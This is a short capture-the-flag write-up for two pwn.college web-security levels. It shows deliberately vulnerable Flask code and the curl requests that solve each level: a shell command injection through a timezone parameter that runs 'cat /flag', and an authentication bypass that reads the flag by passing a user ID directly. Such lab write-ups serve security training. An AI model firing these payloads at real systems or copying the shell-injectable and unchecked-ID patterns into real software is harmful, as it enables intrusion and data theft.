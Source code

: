 # Web Security

pwn.college [Web Security](https://pwn.college/intro-to-cybersecurity/web-security/) dojo.

## Level 2 - Command injection

Code for the level

```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

I want to inject `TZ=; cat /flag # date` into `TZ={timezone} date`.

```sh
curl "http://challenge.localhost:80?timezone=;%20cat%20/flag%20%23"
```

## Level 3 - Authentication bypass vulnerability

Code for the level

```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

I simply need to skip authentication and provide the user ID,

```sh
curl http://challenge.localhost:80?user=1
```
